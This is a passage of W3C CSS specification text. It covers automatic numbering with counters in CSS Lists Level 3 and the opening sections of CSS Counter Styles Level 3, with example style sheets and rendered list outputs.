> | * english one OWT WERBEH * * english three RUOF WERBEH * | * english one * OWT WERBEH * english three * RUOF WERBEH |

> **Issue:** For this order punctuation inside the marker correctly, it would also need to take the `direction` value of the parent. [[Issue #4202]](https://github.com/w3c/csswg-drafts/issues/4202)

> **Issue:** There are issues open on [renaming the keywords](https://github.com/w3c/csswg-drafts/issues/5308) and on [merging with `list-style-position`](https://github.com/w3c/csswg-drafts/issues/4209).

### 4.  Automatic Numbering With Counters {#css-lists-3:auto-numbering}

A **counter** is a special numeric tracker used, among other things, to automatically number list items in CSS. Every element has a collection of zero or more counters, which are inherited through the document tree in a way similar to inherited property values. Counters have a **name** and **creator**, which identify the counter, a boolean **reversed** (false by default), and an integer **value** (optional when the counter is reversed). They are created and manipulated with the **counter properties** `counter-increment`, `counter-set` and `counter-reset`, and used with the `counter()` and `counters()` functional notations.

Counters are referred to in CSS syntax using the **`<counter-name>`** type, which represents their name as a `<custom-ident>`. A `<counter-name>` name cannot match the keyword `none`; such an identifier is invalid as a <counter-name>.

A reversed counter is created with the `reversed()` functional notation, which is defined as follows:

```css
<reversed-counter-name> = reversed( <counter-name> )
```

Resolving counter values on a given element is a multi-step process:

1. Existing counters are inherited from previous elements.
2. New counters are instantiated (`counter-reset`).
3. Counter values are incremented (`counter-increment`).
4. Counter values are explicitly set (`counter-set`).
5. Counter values are used (`counter()`/`counters()`).

UAs may have implementation-specific limits on the maximum or minimum value of a counter. If a counter reset, set, or increment would push the value outside of that range, the value must be clamped to that range.

#### 4.1.  Creating Counters: the `counter-reset` property {#css-lists-3:counter-reset}

| Field | Value |
| --- | --- |
| Name: | **counter-reset** |
| [Value:](#css-values-4:value-defs) | [ `<counter-name>` `<integer>`? \| `<reversed-counter-name>` <integer>? ]+ \| none |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or a list, each item an identifier or a `reversed()` function paired with an integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

User agents are expected to support this property on all media, including non-visual ones.

The `counter-reset` property instantiates new counters on an element and sets them to the specified integer values. Its values are defined as follows:

****none****

: This element does not create any new counters.

****`<counter-name>` `<integer>`?****

: Instantiates a counter of the given `<counter-name>` with a starting value of the given `<integer>`, defaulting to `0`.

****`<reversed-counter-name>` `<integer>`?****

: Instantiates a reversed counter of the given `<counter-name>` with a starting value of the given `<integer>`, or no starting value if not given.

> **Example:** Note that counter properties follow the cascading rules as normal. Thus, due to cascading, the following style sheet:
>
> ```
> h1 { counter-reset: section -1 }
> h1 { counter-reset: imagenum 99 }
> ```
>
> will only reset `imagenum`. To reset both counters, they have to be specified together:
>
> ```
> H1 { counter-reset: section -1 imagenum 99 }
> ```
>
> The same principles apply to the `counter-set` and `counter-increment` properties. See [css-cascade-4].

If multiple instances of the same `<counter-name>` occur in the property value, only the last one is honored.

#### 4.2.  Manipulating Counter Values: the `counter-increment` and `counter-set` properties {#css-lists-3:increment-set}

| Field | Value |
| --- | --- |
| Name: | **counter-increment** |
| [Value:](#css-values-4:value-defs) | [ `<counter-name>` `<integer>`? ]+ \| none |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or a list, each item an identifier paired with an integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

User agents are expected to support this property on all media, including non-visual ones.

| Field | Value |
| --- | --- |
| Name: | **counter-set** |
| [Value:](#css-values-4:value-defs) | [ `<counter-name>` `<integer>`? ]+ \| none |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or a list, each item an identifier paired with an integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

User agents are expected to support this property on all media, including non-visual ones.

The `counter-increment` and `counter-set` properties manipulate the value of existing counters. They only instantiate new counters if there is no counter of the given name on the element yet. Their values are defined as follows:

****none****

: This element does not alter the value of any counters.

****`<counter-name>` `<integer>`?****

: Sets (for `counter-set`) or increments (for `counter-increment`) the value of the named counter on the element to/by the specified `<integer>`. If the <integer> is omitted, it defaults to `1` (for `counter-increment`) or `0` (for `counter-set`).

  If there is not currently a counter of the given name on the element, the element instantiates a new counter of the given name with a starting value of `0` before setting or incrementing its value.

> **Example:** This example shows a way to number chapters and sections with "Chapter 1", "1.1", "1.2", etc.
>
> ```
> h1::before {
>     content: "Chapter " counter(chapter) ". ";
>     counter-increment: chapter;  /* Add 1 to chapter */
>     counter-set: section;      /* Set section to 0 */
> }
> h2::before {
>     content: counter(chapter) "." counter(section) " ";
>     counter-increment: section;
> }
> ```

If multiple instances of the same `<counter-name>` occur in the property value, they are all processed, in order. Thus increments will compound, but only the last set value will take effect.

#### 4.3.  Nested Counters and Scope {#css-lists-3:nested-counters}

Counters are “self-nesting”; instantiating a new counter on an element which inherited an identically-named counter from its parent creates a new counter of the same name, nested inside the existing counter. This is important for situations like lists in HTML, where lists can be nested inside lists to arbitrary depth: it would be impossible to define uniquely named counters for each level. The `counter()` function only retrieves the innermost counter of a given name on the element, whereas the `counters()` function uses all counters of a given name that contain the element.

The **scope** of a counter therefore starts at the first element in the document that instantiates that counter and includes the element’s descendants and its following siblings with their descendants. However, it does not include any elements in the scope of a counter with the same name created by a `counter-reset` on a later sibling of the element, allowing such explicit counter instantiations to obscure those earlier siblings.

See [§ 4.4 Creating and Inheriting Counters](#css-lists-3:creating-counters) for the exact rules governing the scope of counters and their values.

> **Example:** The following code numbers nested list items. The result is very similar to that of setting `display:list-item` and `list-style: inside` on the LI element:
>
> ```
> ol { counter-reset: item }
> li { display: block }
> li::before { content: counter(item) ". "; counter-increment: item }
> ```
>
> In this example, an ol will create a counter, and all children of the ol will refer to that counter.
>
> If we denote the *n*th instance of the `item` counter by item*n*, then the following HTML fragment will use the indicated counters.
>
> `<ol>` item0 is created, set to 0
>
> `<li>` item0 is incremented to 1
>
> `<li>` item0 is incremented to 2
>
> `<ol>` item1 is created, set to 0, nested in item0
>
> `<li>` item1 is incremented to 1
>
> `<li>` item1 is incremented to 2
>
> `<li>` item1 is incremented to 3
>
> `<ol>` item2 is created, set to 0, nested in item1
>
> `<li>` item2 is incremented to 1
>
> `</ol>`
>
> `<li>` item1 is incremented to 4
>
> `<ol>` item3 is created, set to 0, nested in item1
>
> `<li>` item3 is incremented to 1
>
> `</ol>`
>
> `<li>` item1 is incremented to 5
>
> `</ol>`
>
> `<li>` item0 is incremented to 3
>
> `<li>` item0 is incremented to 4
>
> `</ol>`
>
> `<ol>` item4 is created, set to 0
>
> `<li>` item4 is incremented to 1
>
> `<li>` item4 is incremented to 2
>
> `</ol>`

#### 4.4.  Creating and Inheriting Counters {#css-lists-3:creating-counters}

Each element or pseudo-element in a document has a (possibly empty) set of counters in the scope of that element, either through inheritance from another element or through instantiation on the element directly. These counters are represented as a **CSS counters set**, which is a set whose values are each a tuple of: a string (representing a counter’s name), an element (representing the counter’s creator), a boolean (representing whether the counter is reversed), and optionally an integer (representing the counter’s value). The latest counter of a given name in that set represents the **innermost** counter of that name.

##### 4.4.1.  Inheriting Counters {#css-lists-3:inheriting-counters}

An element inherits its initial set of counters from its parent and preceding *sibling*. It then takes the values for those counters from the values of the matching counters on its preceding *element in tree order* (which might be its parent, its preceding sibling, or a descendant of its previous sibling). To **inherit counters** into an *element*:

1. Let *element counters* be an initially empty CSS counters set representing *element*’s own CSS counters set.
2. If *element* is the root of its document tree, return. (The element has an initially-empty counter map and inherits nothing.)
3. Let *counter source* be the CSS counters set of *element*’s preceding sibling, if it has one, or else of *element*’s parent if it does not.
4. Let *value source* be the CSS counters set of the element immediately preceding *element* in tree order.
5. For each (|=CSS counter/name=|, *originating element*, |=value=|) of *value source*:

  1. If *counter source* also contains a counter with the same |=CSS counter/name=| and *originating element*, then append a copy of *value source*’s counter (|=CSS counter/name=|, *originating element*, |=value=|) to *element counters*.

> **Example:** Take the following code as an example:
>
> ```
> <ul style='counter-reset: example 0;'>
>   <li id='foo' style='counter-increment: example;'>
>     foo
>     <div id='bar' style='counter-increment: example;'>bar</div>
>   </li>
>   <li id='baz'>
>     baz
>   </li>
> </ul>
> ```
>
> Recall that tree order turns a document tree into an ordered list, where an element comes before its children, and its children come before its next sibling. In other words, for a language like HTML, it’s the order in which the parser encounters start tags as it reads the document.
>
> In here, the `ul` element establishes a new counter named `example`, and sets its value to `0`. The **#foo** element, being the first child of the `ul`, inherits this counter. Its parent is also its immediately preceding element in tree order, so it inherits the value `0` with it, and then immediately increments the value to `1`.
>
> The same happens with the **#bar** element. It inherits the `example` counter from **#foo**, and inherits the value `1` from it as well and increments it to `2`.
>
> However, the **#baz** element is a bit different. It inherits the `example` counter from the **#foo** element, its previous sibling. However, rather than inheriting the value `1` from **#foo** along with the counter, in inherits the value `2` from **#bar**, the previous element in tree order.
>
> This behavior allows a single counter to be used throughout a document, continuously incrementing, without the author having to worry about the nested structure of their document.

> **Note:** Counter inheritance, like regular CSS inheritance, operates on the “flattened element tree” in the context of the [DOM].

##### 4.4.2.  Instantiating Counters {#css-lists-3:instantiating-counters}

Counters are instantiated when named in `counter-reset`, and also when not otherwise present if named in `counter-increment`, `counter-set`, or the `counter()` or `counters()` notations. (Newly instantiated counters replace identically-named counters originating from previous siblings, but are added in addition to identically-named counters originating from ancestor elements, see [§ 4.3 Nested Counters and Scope](#css-lists-3:nested-counters).) To **instantiate a counter** of a given *name* on an *element*, optionally *reversed*, with an optional starting *value*:

1. Let *counters* be *element*’s CSS counters set.
2. Let *innermost counter* be the last counter in *counters* with the name *name*. If *innermost counter*’s originating element is *element* or a previous sibling of *element*, remove *innermost counter* from *counters*.
3. Append a new counter to *counters* with name *name*, originating element *element*, reversed being *reversed*, and initial value *value* (if given)

When a counter is instantiated without an initial value, the user agent must dynamically calculate the initial value at layout-time to be the value returned by the following algorithm:

1. Let *num* be 0.
2. Let *lastNonZeroIncrementNegated* be 0.
3. For each element or pseudo-element *el* that increments or sets the same counter in the same scope:

  1. Let *incrementNegated* be *el*’s `counter-increment` integer value for this counter, multiplied by -1.
  2. If *incrementNegated* is not zero, then set *lastNonZeroIncrementNegated* to *incrementNegated*.
  3. If *el* sets this counter with `counter-set`, then add that integer value to *num* and break this loop.
  4. Add *incrementNegated* to *num*.
4. Add *lastNonZeroIncrementNegated* to *num*.
5. Return *num*.

> **Note:** Only reversed counters can be instantiated without an initial value.

#### 4.5.  Counters in elements that do not generate boxes {#css-lists-3:counters-without-boxes}

An element that does not generate a box (for example, an element with `display` set to `none`, or a pseudo-element with `content` set to `none`) cannot set, reset, or increment a counter. The counter properties are still valid on such an element, but they must have no effect.

> **Example:** For example, with the following style sheet, H2s with class "secret" do not increment `count2`.
>
> ```
> h2 { counter-increment: count2; }
> h2.secret { display: none; }
> ```

> **Note:** Other methods of “hiding” elements, such as setting `visibility` to `hidden`, still cause the element to generate a box, and so are not excepted here.

Whether a replaced element’s descendants (such as HTML `option`, or SVG `rect`) can set, reset, or increment a counter is undefined.

> **Note:** The behavior on replaced element descendants is currently undefined due to a lack of interoperability across implementations.

#### 4.6.  The Implicit `list-item` Counter {#css-lists-3:list-item-counter}

In addition to any explicitly defined counters that authors write in their styles, list items automatically increment a special **list-item** counter, which is used when generating the default marker string on list items (see `list-style-type`).

Specifically, unless the `counter-increment` property explicitly specifies a different increment for the `list-item` counter, it must be incremented by 1 on every list item, or if the counter is reversed, it must be incremented by -1 on every list item instead, at the same time that counters are normally incremented (exactly as if the list item had `list-item 1` or `list-item -1` appended to their `counter-increment` value, including side-effects such as possibly instantiating a new counter, etc). This does not affect the specified or computed values of `counter-increment`.

> **Example:** Because each list item automatically increments the `list-item` counter by 1, consecutive list items with a numeric `list-style-type` will be consecutively numbered by default—​even if the author sets `counter-increment` to another value such as `counter-increment: itemnumber` or even `none`. This protects the automatic `list-item` counter from inadvertently being overridden by declarations intended to address other counters.
>
> However, since the automatic `list-item` increment *does not* happen if the list item’s `counter-increment` explicitly mentions the `list-item` counter, `li { counter-increment: list-item 2; }` will increment `list-item` by 2 as specified, not by 3 as would happen if `list-item 1` were unconditionally appended.
>
> This also allows to turn off the automatic `list-item` counter increment, by overriding it explicitly, e.g. `counter-increment: list-item 0;`.

In all other respects, the `list-item` counter behaves like any other counter and can be used and manipulated by authors to adjust list item styling or for other purposes.

> **Example:** In the following example, the list is modified to count by twos:
>
> ```
> ol.evens > li { counter-increment: list-item 2; }
> ```
>
> A three-item list would be rendered as
>
> ```
> 2. First Item
> 4. Second Item
> 6. Third Item
> ```

UAs and host languages should ensure that the `list-item` counter values by default reflect the underlying numeric value dictated by host language semantics when setting up list item styling in their UA style sheet and presentational hint style mappings. See, e.g. [Appendix A: Sample Style Sheet For HTML](#css-lists-3:ua-stylesheet).

> **Example:** In the following example, the `content` property is used to create tiered numbering that hooks into the `list-item` counter, and thus respects any numbering changes inflicted through HTML:
>
> ```
> ol > li::marker { content: counters(list-item,'.') '.'; }
> ```
>
> Nested lists using this rule would be rendered like
>
> ```
> 1. First top-level item
> 5. Second top-level item, value=5
>    5.3. First second-level item, list start=3
>    5.4. Second second-level item, list start=3
>         5.4.4. First third-level item in reversed list
>         5.4.3. Second third-level item in reversed list
>         5.4.2. Third third-level item in reversed list
>         5.4.1. Fourth third-level item in reversed list
>    5.5. Third second-level item, list start=3
> 6. Third top-level item
> ```
>
> given markup such as
>
> ```
> <ol>
>   <li>First top-level item
>   <li value=5>Second top-level item, value=5
>     <ol start=3>
>       <li>First second-level item, list start=3
>       <li>Second second-level item, list start=3
>         <ol reversed>
>           <li>First third-level item in reversed list
>           <li>Second third-level item in reversed list
>           <li>Third third-level item in reversed list
>           <li>Fourth third-level item in reversed list
>         </ol>
>       <li>Third second-level item, list start=3
>     </ol>
>   <li>Third top-level item
> </ol>
> ```

#### 4.7.  Outputting Counters: the `counter()` and `counters()` functions {#css-lists-3:counter-functions}

Counters have no visible effect by themselves, but their values can be used with the **counter()** and **counters()** functions, whose used values represent counter values as strings or images. They are defined as follows:

```css
<counter> = <counter()> | <counters()>
<counter()>  =  counter( <counter-name>, <counter-style>? )
<counters()> = counters( <counter-name>, <string>, <counter-style>? )
```

where `<counter-style>` specifies the counter style for generating a representation of the named counter(s) as defined in [css-counter-styles-3] and

**counter()**

: Represents the value of the innermost counter in the element’s CSS counters set named `<counter-name>` using the counter style named `<counter-style>`.

**counters()**

: Represents the values of all the counters in the element’s CSS counters set named `<counter-name>` using the counter style named `<counter-style>`, sorted in outermost-first to innermost-last order and joined by the specified `<string>`.

In both cases, if the `<counter-style>` argument is omitted it defaults to `decimal`.

> **Note:** If the `<counter-style>` is one of the predefined symbolic styles, like `disc`, it might look different than when used in `list-style-type`. See [CSS Counter Styles 3 § 6.3 Symbolic: disc, circle, square, disclosure-open, disclosure-closed](#css-counter-styles-3:simple-symbolic).

If no counter named `<counter-name>` exists on an element where `counter()` or `counters()` is used, one is first instantiated with a starting value of `0`.

> **Example:** ```
> H1::before        { content: counter(chno, upper-latin) ". " }
> /* Generates headings like "A. A History of Discontent" */
>
> H2::before        { content: counter(section, upper-roman) " - " }
> /* Generates headings like "II - The Discontent Part" */
>
> BLOCKQUOTE::after { content: " [" counter(bq, decimal) "]" }
> /* Generates blockquotes that end like "... [3]" */
>
> DIV.note::before  { content: counter(notecntr, disc) " " }
> /* Simply generates a bullet before every div.note */
>
> P::before         { content: counter(p, none) }
> /* inserts nothing */
> ```

> **Example:** The following example shows a simple use of the `counters()` function:
>
> ```
> <ul>
>   <li>one</li>
>   <li>two
>     <ul>
>       <li>nested one</li>
>       <li>nested two</li>
>     </ul>
>   </li>
>   <li>three</li>
> </ul>
> <style>
> li::marker { content: '(' counters(list-item,'.') ') '; }
> </style>
> ```
>
> The preceding document should render something like this:
>
> ```
> (1) one
> (2) two
>    (2.1) nested one
>    (2.2) nested two
> (3) three
> ```

> **Example:** Because counters inherit to siblings as well, they can be used to number headings and subheadings, which aren’t nested within each other. Unfortunately, this prevents the use of `counters()` as counters from siblings don’t nest, but one can create multiple counters and manually concatenate them instead:
>
> ```
> <h1>First H1</h1>
> ...
> <h2>First H2 in H1</h2>
> ...
> <h2>Second H2 in H1</h2>
> ...
> <h3>First H3 in H2</h3>
> ...
> <h1>Second H1</h1>
> ...
> <h2>First H2 in H1</h2>
> ...
> <style>
> body { counter-reset: h1 h2 h3; }
> h1   { counter-increment: h1; counter-reset: h2 h3;}
> h2   { counter-increment: h2; counter-reset:    h3; }
> h3   { counter-increment: h3; }
> h1::before { content: counter(h1,upper-alpha) ' '; }
> h2::before { content: counter(h1,upper-alpha) '.'
>                       counter(h2,decimal) ' '; }
> h3::before { content: counter(h1,upper-alpha) '.'
>                       counter(h2,decimal) '.'
>                       counter(h3,lower-roman) ' '; }
> </style>
> ```
>
> The preceding document should render something like this:
>
> ```
> A First H1
> ...
> A.1 First H2 in H1
> ...
> A.2 Second H2 in H1
> ...
> A.2.i First H3 in H2
> ...
> B Second H1
> ...
> B.1 First H2 in H1
> ...
> ```

> **Issue:** Counters are sometimes useful for things other than printing markers. In general, they provide the ability to number elements in sequence, which can be useful for other properties to reference. For example, using `order` to put an element between two other specific elements currently requires you to explicitly put `order` on every element before and/or after the desired insertion point. If you can set the `order` value of everything to a counter though, you can more easily insert an element into an arbitrary spot between two others.
>
> Other use-cases involve nested or sibling elements with transforms that are meant to be slightly different from each other. Today you have to use a preprocessor to do this in a reasonable way, but a counter would make it work well in "plain" CSS.
>
> (You can built up successive values in the nested case today by using custom properties and stacking up nested `calc()`s, but this is a *little bit* clumsy, and doesn’t work for siblings.)
>
> Suggestion is to add a `counter-value(<counter-name>)` function, which returns the value of the named counter as an integer, rather than returning a string.
>
> See [Issue 1026](https://github.com/w3c/csswg-drafts/issues/1026).

### Appendix A: Sample Style Sheet For HTML {#css-lists-3:ua-stylesheet}

*This section is informative, not normative. The [HTML] [Rendering](https://html.spec.whatwg.org/multipage/rendering.html#lists) chapter defines the normative default properties that apply to HTML lists; this sample style sheet is provided to illustrate the CSS features using familiar markup conventions.*

```
/* Set up list items */
li {
  display: list-item; /* implies 'counter-increment: list-item' */
}

/* Set up ol and ul so that they scope the list-item counter */
ol, ul {
  counter-reset: list-item;
}

/* Default list style types for lists */
ol { list-style-type: decimal; }
ul { list-style-type: toggle(disc, circle, square); }

/* The type attribute on ol and ul elements */
ul[type="disc"]   { list-style-type: disc;   }
ul[type="circle"] { list-style-type: circle; }
ul[type="square"] { list-style-type: square; }
ol[type="1"] { list-style-type: decimal;     }
ol[type="a"] { list-style-type: lower-alpha; }
ol[type="A"] { list-style-type: upper-alpha; }
ol[type="i"] { list-style-type: lower-roman; }
ol[type="I"] { list-style-type: upper-roman; }

/* The start attribute on ol elements */
ol[start] {
  counter-reset: list-item calc(attr(start integer, 1) - 1);
}

/* The value attribute on li elements */
li[value] {
  counter-set: list-item attr(value integer, 1);
}

/* Handling reversed lists */
ol[reversed] {
  counter-reset: reversed(list-item);
}
ol[reversed][start] {
  counter-reset: reversed(list-item) calc(attr(start integer) + 1);
}

/* Box Model Rules */
ol, ul {
  display: block;
  margin-block: 1em;
  marker-side: match-parent;
  padding-inline-start: 40px;
}
ol ol, ol ul, ul ul, ul ol {
  margin-block: 0;
}

li {
  text-align: match-parent;
}
```

---

## CSS Counter Styles Module Level 3 {#css-counter-styles-3}

- **Shortname:** `css-counter-styles-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-counter-styles/](https://drafts.csswg.org/css-counter-styles/)
- **Published TR:** [https://www.w3.org/TR/css-counter-styles-3/](https://www.w3.org/TR/css-counter-styles-3/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2026-11-02

### 1.  Introduction {#css-counter-styles-3:intro}

CSS 1 defined a handful of useful counter styles based on the styles that HTML traditionally allowed on ordered and unordered lists. While this was expanded slightly by CSS2.1, it doesn’t address the needs of worldwide typography.

This module introduces the `@counter-style` rule which allows CSS to address this in an open-ended manner, by allowing the author to define their own counter styles. These styles can then be used in the `list-style-type` property or in the `counter()` and `counters()` functions. It also defines some additional predefined counter styles, particularly ones which are common but complicated to represent with `@counter-style`.

### 2.  Counter Styles {#css-counter-styles-3:counter-styles}

A **counter style** defines how to convert a counter value into a string. Counter styles are composed of:

- a name, to identify the style
- an algorithm, which transforms integer counter values into a basic string representation
- a negative sign, which is prepended or appended to the representation of a negative counter value.
- a prefix, to prepend to the representation
- a suffix to append to the representation
- a range, which limits the values that a counter style handles
- a spoken form, which describes how to read out the counter style in a speech synthesizer
- and a fallback style, to render the representation with when the counter value is outside the counter style’s range or the counter style otherwise can’t render the counter value

#### 2.1. Counter Style Names {#css-counter-styles-3:counter-style-names}

Counter styles are referenced by name, and represented syntactically by **<counter-style-name>**, which is a `<custom-ident>` specifying a tree-scoped name. The keyword `none` (including any ASCII case-insensitive permutation of it) is not a valid `<counter-style-name>`.

> **Note:** Note that `<custom-ident>` also automatically excludes the CSS-wide keywords. In addition, some names, like `inside`, are valid as counter style names, but conflict with the existing values of properties like `list-style`, and so won’t be usable there.

Counter style names are generally case-sensitive. However, the names defined in this specification are ASCII lowercased on parse wherever they are used as counter styles, e.g. in the `list-style` set of properties, in the `@counter-style` rule, and in the `counter()` functions.

#### 2.2.  Generating a Counter String {#css-counter-styles-3:stringify}

When asked to **generate a counter representation** using a particular counter style for a particular counter value, follow these steps:

1. If the counter style is unknown, exit this algorithm and instead generate a counter representation using the `decimal` style and the same counter value.
2. If the counter value is outside the `range` of the counter style, exit this algorithm and instead generate a counter representation using the counter style’s fallback style and the same counter value.
3. Using the counter value and the counter algorithm for the counter style, generate an **initial representation for the counter value**. If the counter value is negative and the counter style uses a negative sign, instead generate an initial representation using the absolute value of the counter value.
4. Prepend symbols to the representation as specified in the `pad` descriptor.
5. If the counter value is negative and the counter style uses a negative sign, wrap the representation in the counter style’s negative sign as specified in the `negative` descriptor.
6. Return the representation.

> **Note:** `prefix` and `suffix` don’t play a part in this algorithm. This is intentional; the prefix and suffix aren’t part of the string returned by the counter() or counters() functions. Instead, the prefix and suffix are added by the algorithm that constructs the value of the `content` property for the `::marker` pseudo-element. This also implies that the prefix and suffix always come from the specified counter-style, even if the actual representation is constructed by a fallback style.

Some values of `system` (`symbolic`, `additive`) and some descriptors (`pad`) can generate representations with size linear to an author-supplied number. This can potentially be abused to generate excessively large representations and consume undue amounts of the user’s memory or even hang their browser. User agents must support representations at least 60 Unicode codepoints long, but they may choose to instead use the fallback style for representations that would be longer than 60 codepoints.

### 3.  Defining Custom Counter Styles: the `@counter-style` rule {#css-counter-styles-3:the-counter-style-rule}

The **@counter-style** rule allows authors to define a custom counter style. The components of a counter style are specified by descriptors in the `@counter-style` rule. The algorithm is specified implicitly by a combination of the `system`, `symbols`, and `additive-symbols` properties.

The general form of an `@counter-style` rule is:

```css
@counter-style <counter-style-name> { <declaration-list> }
```

Certain **non-overridable counter styles**—​specifically, `decimal` or any of the predefined symbolic counter styles (`<symbolic-glyph>`)—​cannot be defined by an `@counter-style` rule; any rule that attempts to do so is invalid and ignored.

Each `@counter-style` rule specifies a value for every counter-style descriptor, either implicitly or explicitly. Those not given explicit value in the rule take the initial value listed with each descriptor in this specification. These descriptors apply solely within the context of the `@counter-style` rule in which they are defined, and do not apply to document language elements. There is no notion of which elements the descriptors apply to or whether the values are inherited by child elements. When a given descriptor occurs multiple times in a given `@counter-style` rule, only the last-specified valid value is used; all prior values for that descriptor must be ignored.

Defining a `@counter-style` makes it available to the entire document in which it is included. If multiple `@counter-style` rules are defined with the same name, only one wins, according to standard cascade rules. `@counter-style` rules cascade "atomically": if one replaces another of the same name, it replaces it *entirely*, rather than just replacing the specific descriptors it specifies.

> **Note:** Note that even the predefined counter styles can be overridden; the UA stylesheet occurs before any other stylesheets, so the predefined ones always lose in the cascade.

This at-rule conforms with the forward-compatible parsing requirement of CSS; conformant parsers that don’t understand these rules will ignore them without error. Any descriptors that are not recognized or implemented by a given user agent, or whose value does not match the grammars given here or in a future version of this specification, must be ignored in their entirety; they do not make the `@counter-style` rule invalid.

#### 3.1.  Counter algorithms: the `system` descriptor {#css-counter-styles-3:counter-style-system}

| Field | Value |
| --- | --- |
| Name: | **system** |
| For: | `@counter-style` |
| Value: | cyclic \| numeric \| alphabetic \| symbolic \| additive \| [fixed `<integer>`?] \| [ extends `<counter-style-name>` ] |
| Initial: | symbolic |

The `system` descriptor specifies which algorithm will be used to construct the counter’s representation based on the counter value. For example, `cyclic` counter styles just cycle through their symbols repeatedly, while `numeric` counter styles interpret their symbols as digits and build their representation accordingly. The systems are defined in the following subsections.

Each `system` value is associated with either the `symbols` or `additive-symbols` descriptors, and has a minimum length that the appropriate descriptor must have; each entry below defines what this is. If a `@counter-style` rule fails to meet this requirement, it does not define a counter style. (The rule is still syntactically valid, but has no effect.)

##### 3.1.1.  Cycling Symbols: the `cyclic` system {#css-counter-styles-3:cyclic-system}

The **cyclic** counter system cycles repeatedly through its provided symbols, looping back to the beginning when it reaches the end of the list. It can be used for simple bullets (just provide a single counter symbol), or for cycling through multiple symbols. The first counter symbol is used as the representation of the value 1, the second counter symbol (if it exists) is used as the representation of the value 2, etc.

If the system is `cyclic`, the `symbols` descriptor must contain at least one counter symbol, otherwise the rule does not define a counter style (but is still a valid rule). This system is defined over all counter values.

> **Example:** A "triangle bullet" counter style can be defined as:
>
> ```
> @counter-style triangle {
>   system: cyclic;
>   symbols: ‣;
>   suffix: " ";
> }
> ```
>
> It will then produce lists that look like:
>
> ```
> ‣  One
> ‣  Two
> ‣  Three
> ```

If there are *N* counter symbols and a representation is being constructed for the integer *value*, the representation is the counter symbol at index ( (*value*-1) mod *N*) of the list of counter symbols (0-indexed).

##### 3.1.2.  Exhaustible Symbols: the `fixed` system {#css-counter-styles-3:fixed-system}

The **fixed** counter system runs through its list of counter symbols once, then falls back. It is useful for representing counter styles that only have a finite number of representations. For example, Unicode defines several limited-length runs of special characters meant for lists, such as circled digits.

If the system is `fixed`, the `symbols` descriptor must contain at least one counter symbol, otherwise the rule does not define a counter style (but is still a valid rule). This system is defined over counter values in a finite range, starting with the first symbol value and having a length equal to the length of the list of counter symbols.

When this system is specified, it may optionally have an integer provided after it, which sets the **first symbol value**. If it is omitted, the first symbol value is 1.

> **Example:** A "box-corner" counter style can be defined as:
>
> ```
> @counter-style box-corner {
>   system: fixed;
>   symbols: ◰ ◳ ◲ ◱;
>   suffix: ': ';
> }
> ```
>
> It will then produce lists that look like:
>
> ```
> ◰:  One
> ◳:  Two
> ◲:  Three
> ◱:  Four
> 5:  Five
> 6:  Six
> ```

The first counter symbol is the representation for the first symbol value, and subsequent counter values are represented by subsequent counter symbols. Once the list of counter symbols is exhausted, further values cannot be represented by this counter style, and must instead be represented by the fallback counter style.

##### 3.1.3.  Repeating Symbols: the `symbolic` system {#css-counter-styles-3:symbolic-system}

The **symbolic** counter system cycles repeatedly through its provided symbols, doubling, tripling, etc. the symbols on each successive pass through the list. For example, if the original symbols were "*" and "†", then on the second pass they would instead be "**" and "††", while on the third they would be "***"and "†††", etc. It can be used for footnote-style markers, and is also sometimes used for alphabetic-style lists for a slightly different presentation than what the `alphabetic` system presents.

If the system is `symbolic`, the `symbols` descriptor must contain at least one counter symbol, otherwise the rule does not define a counter style (but is still a valid rule). This system is defined only over strictly positive counter values.

> **Example:** An "footnote" counter style can be defined as:
>
> ```
> @counter-style footnote {
>   system: symbolic;
>   symbols: '*' ⁑ † ‡;
>   suffix: " ";
> }
> ```
>
> It will then produce lists that look like:
>
> ```
> *   One
> ⁑   Two
> †   Three
> ‡   Four
> **  Five
> ⁑⁑  Six
> ```

> **Example:** Some style guides mandate a list numbering that looks similar to `upper-alpha`, but repeats differently after the first 26 values, instead going "AA", "BB", "CC", etc. This can be achieved with the symbolic system:
>
> ```
> @counter-style upper-alpha-legal {
>   system: symbolic;
>   symbols: A B C D E F G H I J K L M
>            N O P Q R S T U V W X Y Z;
> }
> ```
>
> This style is identical to `upper-alpha` through the first 27 values, but they diverge after that, with `upper-alpha` going "AB", "AC", "AD", etc. Starting at the 53rd value, `upper-alpha` goes "BA", "BB", "BC", etc., while this style jumps into triple digits with "AAA", "BBB", "CCC", etc.

To construct the representation, run the following algorithm:

Let *N* be the length of the list of counter symbols, *value* initially be the counter value, *S* initially be the empty string, and *symbol(n)* be the nth counter symbol in the list of counter symbols (0-indexed).

1. Let the *chosen symbol* be `symbol( (value - 1) mod N)`.
2. Let the *representation length* be `ceil( value / N )`.
3. Append the *chosen symbol* to *S* a number of times equal to the *representation length*.

Finally, return *S*.

##### 3.1.4.  Bijective Numerals: the `alphabetic` system {#css-counter-styles-3:alphabetic-system}

